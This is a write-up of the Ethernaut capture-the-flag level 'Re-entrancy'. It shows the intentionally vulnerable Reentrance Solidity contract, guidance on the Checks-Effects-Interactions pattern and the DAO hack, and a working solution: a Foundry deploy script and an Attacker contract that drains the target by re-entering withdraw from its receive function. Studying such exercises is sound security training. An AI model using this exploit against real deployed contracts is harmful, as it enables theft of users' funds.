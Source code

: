 ```yaml
---
title: Re-entrancy
weight: 11
type: docs
prev: king
---
```


[Level10](https://ethernaut.openzeppelin.com/level/10) - ⭐⭐⭐

---

The goal of this level is for you to steal all the funds from the contract.

Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

💡 In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be
another contract, not just a regular address. Hence, it can execute code
in its payable fallback method and _re-enter_ your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

### The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).

### Use the Checks-Effects-Interactions Pattern[](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern)

Most functions will first perform some checks and they should be done first
(who called the function, are the arguments in range, did they send enough Ether,
does the person have tokens, etc.).

As the second step, if all checks passed, effects to the state variables of the current contract should be made.
Interaction with other contracts should be the very last step in any function.

Early contracts delayed some effects and waited for external function calls to return in a non-error state.
This is often a serious mistake because of the reentrancy problem explained above.

Note that, also, calls to known contracts might in turn cause calls to
unknown contracts, so it is probably better to just always apply this pattern.

Solution:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker} from "../src/10.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_10");

        vm.startBroadcast(deployerPrivateKey);

        console.logUint(address(addr).balance);

        Attacker instance = new Attacker(payable(addr));
        instance.attack{value: address(addr).balance}();

        console.logUint(address(addr).balance);

        vm.stopBroadcast();

    }
}
```

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Reentrance {

  function donate(address _to) external payable;
  function balanceOf(address _who) external view returns (uint balance);
  function withdraw(uint _amount) external;
  receive() external payable;
}

contract Attacker {

  Reentrance callee;

  constructor(address payable _callee) {
    callee = Reentrance(_callee);
  }

  function attack() public payable {
    uint amount = address(callee).balance;
    callee.donate{value: amount}(address(this));
    callee.withdraw(amount);
  }

  receive() external payable {
    uint amount = address(callee).balance;
		// This check is made to prevent infinite loop
    if (amount != 0) {
      callee.withdraw(amount);
    }
  }
}
```

